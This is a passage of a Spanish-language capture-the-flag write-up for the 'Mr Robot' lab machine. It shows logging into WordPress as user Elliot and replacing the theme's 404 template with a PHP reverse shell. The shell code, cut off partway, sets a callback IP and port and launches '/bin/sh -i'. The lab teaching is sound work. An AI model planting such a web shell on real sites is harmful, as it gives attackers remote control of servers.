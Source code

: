 <img src="/imgs/mrRobot/mrRobot10.png"/>
<p>Ok listo ahora tenemos la contraseña del usuario <font color="yellow">Elliot</font>, ahora solo queda iniciar session en el <font color="yellow">wp-login.php</font>.</p>
<img src="/imgs/mrRobot/mrRobot11.png"/>
<p>Una vez adentro tenemos que ganar acceso por medio de una web-shell, para ello me ire a apariencia y la seccion 404. quitare todo el codigo php y lo remplazare por el siguiente</p>

```php

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.18.27.215';  // CHANGE THIS
$port = 5454;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
```